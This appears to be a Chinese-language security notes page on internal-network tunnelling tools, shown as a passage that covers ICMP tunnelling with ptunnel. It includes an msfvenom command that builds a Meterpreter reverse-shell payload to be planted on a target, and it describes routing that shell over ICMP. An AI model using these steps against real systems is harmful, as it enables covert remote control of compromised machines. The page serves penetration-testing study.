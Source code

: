 ```yaml
---
category: 网络安全
tags:
  - 隧道
  - 工具
sticky: "1"
star: "1"
---
```


# 内网隧道工具使用

记录几种常用内网隧道工具的使用，按隧道类型分类，例如 ICMP、DNS 隧道等。



## 1. ICMP 隧道

### 1.1 ptunnel

> [Thorsten Alteholz / ptunnel · GitLab (debian.org)](https://salsa.debian.org/alteholz/ptunnel)

主要参数（ptunnel -h 可以查看详细信息）

```
-x ：指定ICMP隧道连接的验证密码
-lp：指定要监听的本地TCP端口
-da：指定要转发的目标机器的IP地址
-dp：指定要转发的目标机器的TCP端口
-p：指定ICMP隧道连一段的IP地址
```

#### 上线 msf

攻击机：开启 ptunnel 的 server，将 client 端发过来的 icmp 流量解析成 tcp 的

靶机：开启 ptunnel 的 client，监听本地的 9999 端口，ptunnel 的 client 将 9999 端口接到的流量封装成 icmp，发送到 server 端。

**1）攻击机操作：**

新生成 msf 马，然后放在靶机上

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=9999 -f elf -o exp
```

攻击机开启 msf 监听，此处监听的 4444 端口，后面会用到
